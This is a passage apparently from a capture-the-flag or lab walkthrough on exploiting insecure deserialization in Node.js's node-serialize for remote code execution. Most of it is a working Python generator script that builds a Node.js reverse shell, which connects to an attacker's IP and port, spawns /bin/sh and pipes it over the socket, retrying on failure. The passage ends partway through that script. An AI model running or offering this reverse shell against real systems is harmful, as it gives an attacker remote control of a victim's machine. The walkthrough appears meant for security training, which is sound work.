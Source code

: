 ```js
serialize.unserialize(payload);
```
![[Pasted image 20230731205532.png]]
___
Good!, now that we were able to do a **RCE**, you could think in using a *Reverse Shell*.
To achieve it, we are going to use this [nodejsshejllpy](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) Python script.
*nodejsshellpy.py* this script generates the string by putting the **attacker IP** and **attacker port**.
```Python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
```